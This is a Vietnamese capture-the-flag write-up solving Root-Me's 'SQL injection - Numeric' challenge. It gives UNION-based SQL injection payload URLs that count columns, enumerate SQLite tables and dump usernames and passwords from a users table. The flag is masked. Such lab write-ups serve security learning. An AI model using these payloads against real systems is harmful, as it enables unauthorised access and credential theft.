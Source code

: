 # WRITE UP

**Challenge:** [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<img src="./media/image1.png" style="width:6.5in;height:1.55208in" alt="Shape Description automatically generated with low confidence" />

Thử bypass qua login thì không thể thực hiện được.

<img src="./media/image2.png" style="width:6.5in;height:1.70278in" alt="Shape Description automatically generated with medium confidence" />

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

<img src="./media/image3.png" style="width:6.5in;height:2.35903in" alt="Graphical user interface, text, application Description automatically generated" />

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

<img src="./media/image4.png" style="width:6.5in;height:1.77778in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

<img src="./media/image5.png" style="width:6.5in;height:1.88889in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

<img src="./media/image6.png" style="width:6.5in;height:2.3in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

<img src="./media/image7.png" style="width:6.5in;height:1.95764in" alt="Graphical user interface, text, application Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
